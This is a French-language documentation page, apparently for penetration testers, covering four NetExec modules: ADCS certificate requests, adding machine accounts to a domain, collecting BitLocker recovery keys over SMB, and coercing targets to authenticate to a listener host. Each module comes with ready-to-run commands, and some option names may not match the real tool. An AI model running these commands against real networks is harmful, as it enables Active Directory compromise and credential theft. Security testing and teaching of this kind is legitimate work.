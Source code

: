 # Modules

### Documentation des Modules NetExec

Voici une documentation complète et détaillée de chaque module de NetExec, classée par ordre alphabétique. Chaque module est accompagné d'une description, du protocole pris en charge, des paramètres, des exemples de commandes typiques, ainsi que des usages avancés.

***

#### Module : `adcs`

**1. Nom du Module : `adcs`**

* **Protocole pris en charge** : LDAP
* **Description** : Ce module permet d'exploiter les Active Directory Certificate Services (ADCS) pour obtenir des certificats ou des informations sensibles.

**2. Options / Paramètres**

* `--CERTTEMPLATE` : Nom du modèle de certificat à utiliser.
* `--DC` : Contrôleur de domaine cible.
* `--OUTPUT` : Fichier de sortie pour les certificats obtenus.

**3. Commandes Typiques avec Explications**

**Commande de base** :

```bash
nxc ldap 192.168.1.10 -u user -p 'password' -M adcs -o CERTTEMPLATE=UserTemplate
```

**Explication** :

* Cette commande utilise le module `adcs` pour demander un certificat à l'Active Directory Certificate Services, avec le modèle `UserTemplate`.

**Commande avec fichier de sortie** :

```bash
nxc ldap 192.168.1.10 -u user -p 'password' -M adcs -o CERTTEMPLATE=UserTemplate,OUTPUT=cert.pfx
```

**Explication** :

* Les certificats sont sauvegardés dans le fichier `cert.pfx`.

**4. Commandes Avancées**

Commande pour spécifier un contrôleur de domaine particulier :

```bash
nxc ldap 192.168.1.10 -u user -p 'password' -M adcs -o CERTTEMPLATE=UserTemplate,DC=dc.example.com
```

**Explication** :

* Exécute le module en ciblant le contrôleur de domaine `dc.example.com`.

***

#### Module : `add-computer`

**1. Nom du Module : `add-computer`**

* **Protocole pris en charge** : LDAP
* **Description** : Ce module permet d'ajouter un compte machine à un domaine Active Directory.

**2. Options / Paramètres**

* `--COMPUTERNAME` : Nom du compte machine à ajouter.
* `--PASSWORD` : Mot de passe associé au compte machine.
* `--DC` : Contrôleur de domaine cible.

**3. Commandes Typiques avec Explications**

**Commande de base** :

```bash
nxc ldap 192.168.1.10 -u user -p 'password' -M add-computer -o COMPUTERNAME=NewComputer,PASSWORD=Password123
```

**Explication** :

* Ajoute un compte machine nommé `NewComputer` avec le mot de passe `Password123` sur le contrôleur de domaine spécifié.

**4. Commandes Avancées**

Commande avec spécification d'un contrôleur de domaine :

```bash
nxc ldap 192.168.1.10 -u user -p 'password' -M add-computer -o COMPUTERNAME=NewComputer,PASSWORD=Password123,DC=dc.example.com
```

**Explication** :

* Ajoute le compte machine sur le contrôleur de domaine `dc.example.com`.

***

#### Module : `bitlocker`

**1. Nom du Module : `bitlocker`**

* **Protocole pris en charge** : SMB
* **Description** : Ce module interroge les cibles pour collecter des informations sur BitLocker, y compris les clés de récupération.

**2. Options / Paramètres**

* `--OUTPUT` : Fichier de sortie pour sauvegarder les informations collectées.
* `--VERBOSE` : Active une sortie détaillée.

**3. Commandes Typiques avec Explications**

**Commande de base** :

```bash
nxc smb 192.168.1.10 -u admin -p 'password' -M bitlocker
```

**Explication** :

* Récupère les informations BitLocker de la cible à l’adresse `192.168.1.10`.

**Commande avec fichier de sortie** :

```bash
nxc smb 192.168.1.10 -u admin -p 'password' -M bitlocker -o OUTPUT=bitlocker_info.txt
```

**Explication** :

* Sauvegarde les informations collectées dans `bitlocker_info.txt`.

**4. Commandes Avancées**

Commande avec sortie détaillée :

```bash
nxc smb 192.168.1.10 -u admin -p 'password' -M bitlocker -o VERBOSE=1
```

**Explication** :

* Fournit une sortie plus détaillée des informations collectées.

***

#### Module : `coerce_plus`

**1. Nom du Module : `coerce_plus`**

* **Protocole pris en charge** : SMB
* **Description** : Ce module utilise des méthodes de coercition pour forcer une cible à s’authentifier sur un autre hôte.

**2. Options / Paramètres**

* `--LISTEN` : Adresse IP de l’hôte écouteur où rediriger l’authentification.
* `--VERBOSE` : Active une sortie détaillée.

**3. Commandes Typiques avec Explications**

**Commande de base** :

```bash
nxc smb 192.168.1.10 -M coerce_plus -o LISTEN=192.168.1.20
```

**Explication** :

* Utilise la coercition pour forcer la cible `192.168.1.10` à s’authentifier sur l’hôte `192.168.1.20`.

**Commande avec sortie détaillée** :

```bash
nxc smb 192.168.1.10 -M coerce_plus -o LISTEN=192.168.1.20,VERBOSE=1
```

**Explication** :

* Fournit une sortie détaillée pour le débogage.

**4. Commandes Avancées**

Commande multi-cibles :

```bash
nxc smb targets.txt -M coerce_plus -o LISTEN=192.168.1.20
```

**Explication** :

* Applique la coercition à toutes les cibles listées dans `targets.txt`.
